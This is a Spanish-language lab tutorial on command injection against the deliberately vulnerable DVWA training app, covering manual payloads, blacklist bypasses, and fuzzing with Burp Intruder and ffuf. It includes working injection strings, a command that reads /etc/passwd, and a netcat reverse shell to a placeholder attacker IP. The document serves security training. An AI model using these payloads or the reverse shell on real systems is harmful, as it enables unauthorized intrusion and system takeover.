> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]

---
# Command Injection (DVWA)

# 💉 Command Injection (Inyección de Comandos)

 
 

## 📖 Prueba de Concepto (PoC)

 

### 🔓 ¿Qué es Command Injection?

 

**Vulnerabilidad Command Injection:** La inyección de comandos es una vulnerabilidad de seguridad que ocurre cuando un atacante puede insertar comandos maliciosos en una aplicación o sistema, aprovechando la falta de validación o filtrado adecuado de las entradas del usuario.

 

Estos comandos inyectados se ejecutan en el contexto del sistema objetivo, lo que permite al atacante ejecutar comandos arbitrarios y potencialmente obtener acceso no autorizado al sistema.

 

> [!warning]
> 
 
> #### ⚠️ Características de la Vulnerabilidad:
> 
 
> Puede ocurrir en diferentes tipos de aplicaciones, como aquellas que aceptan entradas a través de:
> 

> 
> * Formularios web
> 
> * Parámetros de URL
> 
> * Campos de entrada de usuario
> 
> * Archivos de configuración
> 

> 
> Los atacantes aprovechan esta vulnerabilidad al insertar **caracteres especiales o secuencias de comandos maliciosos** que se ejecutan en el servidor o en el sistema operativo subyacente.
> 

 

### 💣 Payloads Comunes

 



 

> [!note]
> 
 
> #### 📚 Recursos de Payloads:
> 
 
> **En Kali existe un diccionario para buscar vulnerabilidades web:**
> 
> ```
> /usr/share/wordlists/wfuzz/Injections/All_attack.txt
> ```
> 
 
> **Repositorio de payloads recomendado:**
> 
> https://github.com/payloadbox/command-injection-payload-list
> 
> Vamos a usar esta web y crear nuestro propio diccionario personalizado.
> 

 

 
 

## 🎯 Práctica con DVWA - Nivel Low

 

### 🔧 Paso 1: Configuración Inicial

 

 
1. 

**Abre la VM didáctica DVWA y accede al entorno web.** Las credenciales iniciales de acceso son `admin:password`
 
2. 

**Selecciona en el menú "DVWA Security" el nivel de dificultad en "low" y pulsa "Submit"**
 
3. 

**Accede al menú "Command Injection".** El objetivo es encontrar el usuario del servicio web y el nombre del equipo.
 

 

> [!tip]
> 
 
> #### 💡 Comprender el Funcionamiento:
> 
 
> Antes de nada, debemos comprender el funcionamiento. En este caso si escribimos la IP de un equipo, la web hace ping a esa dirección IP.
> 
> 

> 
 

 

### 💉 Paso 2: Inyectar Payloads

 

 
1. 

**Ahora vamos a probar a inyectar distintos payloads y comprobar si funcionan.** Vamos a utilizar la IP del propio host (127.0.0.1) para hacer el proceso más rápido y no esperar a que haga ping a IPs externas.
 

 

**Prueba con los siguientes payloads:**

 

> [!tip]
> 
 
> #### 🧪 Payloads de Prueba:
> 
 

> 
> * `127.0.0.1;id`
> 
> * `127.0.0.1&id`
> 
> * `127.0.0.1&&id`
> 
> * `127.0.0.1|id`
> 
> * `127.0.0.1||id`
> 

> 

 

### 🔍 Paso 3: Probar Comandos del Sistema

 

**Una vez localizados los payloads que funcionan, vamos a probar distintos comandos en el sistema:**

 

> [!note]
> 
 
> ```bash
> # Listar directorio home
> 127.0.0.1;ls -l /home
> 
# Obtener nombre del host
> 127.0.0.1;hostname
> 
# Leer archivo de usuarios
> 127.0.0.1;cat /etc/passwd
> 
# Verificar si netcat está instalado
> 127.0.0.1;which nc
> ```
> 
 

 

### 🔄 Paso 4: Conexión Inversa (Reverse Shell)

 

**Incluso podemos hacer una conexión inversa:**

 

**En Kali Linux:**
 

```bash
$ nc -lvnp 9002
```

 

**En DVWA (campo de entrada):**
 

```
127.0.0.1;nc ip_kali 9002 -e /bin/bash
```

 

> [!warning]
> 
 
> **⚠️ Importante:**
> 
> Sustituye `ip_kali` por la dirección IP real de tu máquina Kali Linux. Al ejecutar el payload, recibirás una shell inversa en tu listener de netcat.
> 

 

 
 

## 🔒 Práctica con DVWA - Nivel Medium

 

 
1. 

**Selecciona en el menú "DVWA Security" el nivel de dificultad en "medium" y pulsa "Submit"**
 

 

> [!tip]
> 
 
> #### 🔍 Análisis del Nivel Medium:
> 
 
> En este nivel puedes ver en el código fuente que se han añadido a una **lista negra (blacklist)** algunos caracteres, sin embargo, otros siguen funcionando.
> 
> **Prueba igual que hicimos en el apartado anterior:**
> 
> ```
> 127.0.0.1&id
> ```
> 
 
> El carácter `&` podría seguir funcionando mientras que `;` o `|` estén bloqueados.
> 

 

 
 

## 🔐 Práctica con DVWA - Nivel High

 

 
1. 

**Selecciona en el menú "DVWA Security" el nivel de dificultad en "high" y pulsa "Submit"**
 

 

> [!tip]
> 
 
> #### 🔍 Análisis del Nivel High:
> 
 
> En este nivel se han añadido a la blacklist muchos otros caracteres. Mira el código fuente para entender qué está bloqueado.
> 
> **Prueba igual que hicimos en el apartado anterior:**
> 
> ```
> 127.0.0.1 |id
> ```
> 
 
> **Nota:** Observa el espacio antes del pipe `|`. A veces los filtros no consideran espacios adicionales.
> 

 

 
 

## 🔧 Explotación con Burp Suite

 

### 🛠️ Paso 1: Configuración de Burp Suite

 

 
1. 

**Iniciamos Burp Suite y en el menú "Proxy" iniciamos el navegador integrado.**
 
2. 

**Desde el navegador navegamos a la IP de DVWA e introducimos las credenciales `admin:password`**
 
3. 

**Una vez dentro cambiamos la seguridad a "low"**
 
4. 

**Entramos en el menú "Command Injection"**
 
5. 

**Ahora vamos a interceptar el paquete: rellenamos la IP e interceptamos después de darle a "Submit".**
 

 



 

### 📦 Paso 2: Analizar el Paquete Interceptado

 

 
1. 

**Tendremos el siguiente paquete interceptado:**
 

 



 

 
1. 

**En la parte inferior es donde se envía la IP y es donde debemos actuar.**
 
2. 

**Enviamos el paquete al "Intruder" (clic derecho → Send to Intruder).**
 

 



 

### 🎯 Paso 3: Configurar el Ataque en Intruder

 

 
1. 

**El tipo de ataque que vamos a realizar es "Sniper"** ya que vamos a usar un solo diccionario y una única posición donde atacar.
 
2. 

**Seleccionamos la posición donde inyectaremos los payloads:**
 

 



 

 
1. 

**Y pulsamos en "Add §", quedaría marcada de la siguiente manera:**
 

 



 

### 📚 Paso 4: Cargar el Diccionario de Payloads

 

 
1. 

**Vamos ahora a la pestaña "Payloads".** El payload set que vamos a usar es un diccionario que se va a colocar en una sola posición, por lo que "Payload set" lo dejamos como está.
 

 



 

 
1. 

**En "Payload settings" pulsamos en "Load" y vamos a cargar el diccionario que se encuentra en la siguiente ruta:**
 

 

```
/usr/share/wordlists/wfuzz/Injections/All_attack.txt
```

 

> [!tip]
> 
 
> #### 💡 Nota Importante:
> 
 
> Probar generar un diccionario personalizado desde:
> 
> https://github.com/payloadbox/command-injection-payload-list
> 
> Leer la nota sobre la generación de diccionario al final del documento.
> 

 



 

### 🚀 Paso 5: Iniciar el Ataque

 

 
1. 

**Y vamos a comenzar el ataque pulsando "Start attack".**
 

 



 

 
1. 

**Si vamos observando los resultados en la zona "Response" → "Render" podremos ir viendo las respuestas de la web y detectar los payloads que funcionan.** Algo que nos puede ayudar son los **tamaños de las respuestas** que el servidor nos da.
 

 

> [!tip]
> 
 
> #### 📊 Interpretación de Resultados:
> 
 
> **Por ejemplo:**
> 

> 
> * **Length = 4408:** Es una respuesta en blanco (payload no funcionó)
> 
> * **Length en torno a 4800:** Es la respuesta normal del ping (payload no tuvo efecto adicional)
> 
> * **Length diferente:** Indica que el payload ejecutó comandos adicionales
> 

> 
> Ordena los resultados por "Length" para identificar rápidamente respuestas diferentes.
> 

 

 
 

## ⚡ Explotación con ffuf

 

### 📋 Paso 1: Capturar la Petición con Firefox

 

**Antes de utilizar ffuf necesitamos tener qué vamos a enviar como petición.**

 

 
1. 

**Iniciamos Firefox y navegamos a la web de DVWA.** Entramos con las credenciales `admin:password`.
 
2. 

**Cambiamos la seguridad a "low" y entramos en el menú "Command Injection".**
 
3. 

**Rellenamos la IP y pulsamos "Submit".**
 
4. 

**Ahora pulsamos F12 en el navegador para abrir las herramientas de desarrollo.**
 
5. 

**Vamos a la pestaña "Red" (Network) y aparecerá el paquete que hemos enviado.**
 

 



 

### 📤 Paso 2: Copiar como cURL

 

 
1. 

**Pulsamos botón derecho sobre el paquete y vamos a "Copiar" → "Copiar como cURL"**
 

 



 

 
1. 

**Ahora lo pegamos en un terminal:**
 

 



 

 
1. 

**Para acortar la línea vamos a quitar varias cabeceras que se encuentran tras el parámetro `-H`, aunque vamos a dejar "Referer" y "Cookie".**
 

 



 

 
1. 

**Lanzando ahora el comando tenemos la respuesta del servidor.**
 

 



 

### 🔧 Paso 3: Adaptar a ffuf (Primeros Intentos)

 

 
1. 

**Ahora vamos a adaptar esa línea al comando ffuf para poder realizar el ataque:**
 

 



 

> [!warning]
> 
 
> #### ❌ No funciona
> 
 

 

 
1. 

**Volvemos a adaptar esa línea al comando ffuf para poder realizar el ataque:**
 

 



 

> [!warning]
> 
 
> #### ❌ No funciona
> 
 
> Los tamaños devueltos son los mismos, por lo que no está accediendo bien a la web.
> 
> **Vamos a necesitar un archivo de request que contenga la cabecera que se envía al servidor.**
> 

 

### 📄 Paso 4: Crear Archivo de Request

 

 
1. 

**Volvemos al navegador y pulsamos nuevamente botón derecho sobre el paquete y vamos a "Copiar" → "Copiar cabecera de solicitud".**
 

 



 

 
1. 

**Volvemos a nuestra terminal y creamos con nano un archivo llamado "cabecera" en cuyo interior pegamos la cabecera antes copiada.**
 

 



 

 
1. 

**Volvemos al navegador y copiamos el "texto sin procesar de la solicitud" (Request Payload) y lo pegamos al final del archivo de cabecera.**
 

 

> [!warning]
> 
 
> **⚠️ Importante:** Dejar un espacio vacío al final del archivo.
> 

 



 

**Sustituimos `127.0.0.1` de la solicitud por la palabra `FUZZ`** ya que es en ese punto donde aplicaremos el diccionario de payloads.

 

### 🚀 Paso 5: Ejecutar ffuf con el Archivo de Request

 

 
1. 

**Ahora lanzamos el comando ffuf con las siguientes opciones para realizar el ataque.**
 

 

**Pero antes, entramos en https://github.com/payloadbox/command-injection-payload-list y generamos nuestro diccionario de payloads para Command Injection.**

 

**Ver la nota al final del documento sobre la generación del diccionario.**

 



 

```bash
$ ffuf -request cabecera -request-proto http -w diccionario_payloads.txt
```

 

### 🔍 Paso 6: Filtrar Resultados

 

**Empezaremos a obtener resultados del ataque, el problema es diferenciar cuáles de las respuestas son normales y cuáles las que el payload está teniendo efecto.** De momento nos muestra aquellos cuya respuesta es un 200 desde el servidor.

 

**En la ayuda de ffuf tenemos distintas opciones para filtrar los resultados:**

 



 

> [!note]
> 
 
> #### 🔧 Opciones de Filtrado:
> 
 
> **Matcher options:** Muestra aquellos coincidentes con la condición que pongamos.
> 
> **Filter options:** Muestra aquellos que NO cumplan la condición que le pongamos.
> 
> 
> #### Ejemplos:
> 
 
> Añadiendo al final de la línea las siguientes condiciones:
> 

> 
> * `-mr 'www-data'` → Mostraría cuando encuentre en la respuesta la cadena "www-data"
> 
> * `-fs 4117` → Mostraría aquellos payloads en los que el tamaño de la respuesta NO sea 4117
> 

> 
> 
> **Comando completo con filtro:**
> 
> ```bash
> $ ffuf -request cabecera -request-proto http -w diccionario_payloads.txt -fs 4117
> ```
> 
 

 

 
 

## 📝 NOTA IMPORTANTE SOBRE EL DICCIONARIO

 

> [!tip]
> 
 
> ### ⚠️ Limpieza del Diccionario:
> 
 
> Al hacer el diccionario desde el repositorio de GitHub, es importante **quitar las líneas problemáticas**:
> 

> 
> * ❌ Quitar todas las líneas que contengan `ping`
> 
> * ❌ Quitar todas las que empiezan por `() {:;};`
> 

> 
> Estas líneas pueden causar falsos positivos o interferir con el ataque.
> 
> **Comando para limpiar el diccionario:**
> 
> ```bash
> $ grep -v "ping" payloads.txt | grep -v "() {:;};" > diccionario_limpio.txt
> ```
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Command Injection permite ejecutar comandos del sistema operativo
> 
> * ✅ Los caracteres especiales como `;` `|` `&` permiten encadenar comandos
> 
> * ✅ DVWA tiene tres niveles de dificultad con diferentes filtros
> 
> * ✅ Burp Suite Intruder automatiza el fuzzing de payloads
> 
> * ✅ ffuf es una herramienta más rápida para fuzzing web
> 
> * ✅ Los tamaños de respuesta ayudan a identificar payloads exitosos
> 
> * ✅ Podemos obtener reverse shells mediante Command Injection
> 

> 
 
> ### 🎯 Navegación:
> 
 
> → Siguiente: 02 - Brute Force
> 
> ← Volver al Índice del Módulo
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]
